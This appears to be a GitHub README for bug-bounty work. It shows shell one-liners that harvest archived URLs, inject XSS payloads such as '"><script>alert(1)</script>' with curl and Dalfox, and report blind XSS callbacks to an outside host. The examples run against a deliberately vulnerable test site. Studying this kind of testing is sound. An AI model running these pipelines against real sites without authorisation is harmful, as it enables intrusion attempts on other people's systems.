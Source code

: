 # Automate XSS using Dalfox, WaybackURL, GF Patterns.

<b> Make sure you have Go installed on your Machine </b> 

### To Install Go on your Machine:

```
  1) sudo apt install -y golang
  2) export GOROOT=/usr/lib/go
  3) export GOPATH=$HOME/go
  4) export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
  5) source .bashrc
```

## How to Hunt Blind XSS using Dalfox? 

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use GF patterns to find Possible XSS Vulnerable Parameters.
- Use Dalfox to find XSS.

* Steps :
```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```
## How to Hunt Reflected XSS?

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use qsreplace for Accept URLs on stdin, replace all query string values with a user-supplied value, only output each combination of query string parameters once per host and path.

* Steps :
```bash
waybackurls testphp.vulnweb.com| grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
## Find the parameters which are not filtering special characters - One Liner
```bash
echo "test.url" | waybackurls | grep "=" | tee waybackurls.txt
cat waybackruls | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | qsreplace '"><()'| tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && echo -e "$host \033[91m Vullnerable \e[0m \n" || echo -e "$host  \033[92m Not Vulnerable \e[0m \n"; done | tee XSS.txt
```

## Tools Download Links:- 

* 1:- [Dalfox](https://github.com/hahwul/dalfox)
* 2:- [Waybackurls](https://github.com/tomnomnom/waybackurls)
* 3:- [GF](https://github.com/tomnomnom/gf)
* 4:- [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns)
* 5:- [qsreplace](https://github.com/tomnomnom/qsreplace)

Find Script here : [QuickXSS](https://github.com/theinfosecguy/QuickXSS)


If you have any Questions, Reach out to me via [Twitter](https://twitter.com/g0t_rOoT_)
## Twitter : [Fani Malik](https://twitter.com/fanimalikhack)
## Twitter : [Faizee Asad](https://twitter.com/faizee_asad)
## Twitter : [Prince Prafull](https://twitter.com/princeprafull3)


https://medium.com/@0xmekky/how-i-got-easy-multiple-rxss-dd3a6bc521dd